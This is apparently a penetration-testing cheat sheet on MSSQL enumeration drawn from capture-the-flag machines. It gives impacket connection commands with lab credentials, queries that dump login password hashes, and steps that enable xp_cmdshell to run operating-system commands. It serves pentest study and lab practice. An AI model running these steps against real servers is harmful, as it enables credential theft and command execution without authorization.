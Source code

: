 ```yaml
---
description: >-
  Enumerate MSSQL service.
title: MSSQL (tcp-1433)                  # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, MSSQL (tcp-1433)]                     # Change Templates to Writeup
tags: [mssql enumeration, mssql rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Connection

```bash
impacket-mssqlclient sa@10.11.1.31 -p 1433 -db tempdb
# Sometimes you need to specify a Windows Authentication
impacket-mssqlclient Archetype/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
```
#### MSSQL basic commands

```bash
# Show databases available
select name from sys.databases
# It also works for the same but as a store procedure
sp_databases
# Select the database for list its content
use streamio_backup
# List the name of the tables from a database
select * from information_schema.tables;
# List all the tables from a db
select table_name FROM dba_tables;
# List all from a table
select * from users;
# List user permissions
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```
Examples:
[[StreamIO#^2bc6f1]]
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-enum)

#### Command execution from MSSQL
If we have access to the MSSQL we can try to execute commands from MSSQL:
```bash
SQL> xp_cmdshell "whoami"
[-] ERR0R(TALLY): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component ,xp_cmdshell’ because this component is turned off as part of the security figuration for this server. A system administrator can enable the use of ,xp_cmdshell' by using sp_configure. For more information about enabling 'xp.cmdshell', search for p_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERR0R(TALLY): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced options", 1
[*] INF0(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INF0(TALLY): Line 185: Configuration option 'xp.cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-command-execution)
Connect to database joined to the domain controller:
```bash
impacket-mssqlclient scrm.local/sa:sa@10.10.11.168
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-connection)

### More than 200 results

If the results from a table are more than 200 it will be snipped, you can use queries to order the data by column:
```sql
SELECT TOP 200 *
FROM devsacc
ORDER BY name DESC;
```
